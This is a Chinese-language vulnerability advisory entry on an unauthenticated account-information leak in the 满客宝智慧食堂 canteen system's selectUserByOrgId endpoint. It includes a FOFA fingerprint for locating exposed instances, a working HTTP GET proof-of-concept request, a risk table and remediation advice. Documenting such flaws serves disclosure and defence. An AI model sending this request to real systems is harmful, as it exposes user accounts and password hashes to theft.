

# 满客宝智慧食堂 selectUserByOrgId账户信息暴露

## 条目说明

- 对象与具体问题：满客宝智慧食堂；selectUserByOrgId账户信息暴露
- 版本、配置及部署条件：无版本
- 认证与权限前提：声称未认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- FOFA icon_hash截断，record空值条件及返回字段只图
- 破解即可登录非必然，需区分密码hash/账户状态；在野无依据

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

## 漏洞描述

由于满客宝智慧食堂系统 selectUserByOrgId 接口处未进行权限控制，导致未经身份验证的远程攻击者可以未授权访问，泄露系统用户账号密码等信息，进一步破解即可登录系统后台，导致系统处于极不安全的状态。

影响版本

满客宝智慧食堂系统

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 中 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：icon_hash="-409875651"

POC/EXP：

```http
GET /yuding/selectUserByOrgId.action?record= HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.0.0 Safari/537.36
Connection: close
```





## 修复方案

1. 关闭互联网暴露面或接口设置访问权限

   升级至安全版本


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
